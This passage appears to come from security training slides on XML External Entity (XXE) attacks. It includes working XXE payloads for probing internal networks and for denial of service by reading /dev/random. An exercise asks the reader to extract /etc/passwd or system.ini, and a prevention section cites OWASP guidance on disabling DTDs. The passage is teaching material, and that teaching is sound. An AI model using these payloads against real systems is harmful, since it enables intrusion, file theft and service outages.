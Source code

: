 
## Network Probing

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
    <foo>&xxe;</foo>
```

## DoS Attack (against Linux-based Systems)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///dev/random" >]>
    <foo>&xxe;</foo>
```

---

# Exercise 7.6

1. Identify the weak point of the application that accepts arbitrary XML
   data as input (:star::star:)
2. Retrieve the content of your local system‘s `C:\Windows\system.ini`
   (or `/etc/passwd` if you are using Linux) via an XXE attack
   (:star::star::star:)

---

# [Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

* **Configure XML parser to**
    * **disable DTDs completely** (by disallowing `DOCTYPE` declarations)
      :100:
    * disable External Entities (only if allowing DTDs cannot be avoided)

:x: Selective validation or escaping of tainted data is **not**
sufficient, as the whole XML document is crafted by the attacker!

---

# [XML Parser Hardening Examples](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

#### `libxml2` (C/C++)
